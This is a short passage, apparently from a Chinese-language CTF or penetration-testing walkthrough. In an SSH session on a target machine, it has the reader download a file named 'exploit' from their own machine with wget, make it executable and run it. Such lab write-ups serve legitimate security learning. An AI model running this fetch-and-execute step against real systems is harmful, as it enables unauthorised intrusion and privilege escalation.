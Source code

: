 现在，在我们的 SSH 会话中，我们将使用 wget 获取该文件。首先，使用 ifconfig 检查您自己机器的 ip

`wget http://[yourownip]:8000/exploit`

![](img/88527c243dc29428ae364c56c0667653.png)

现在我们有了漏洞

让我们首先给出执行许可并运行漏洞

`chmod +x exploit`

`./exploit`

![](img/ab9120a9bd18a688a948b53dd76b03be.png)
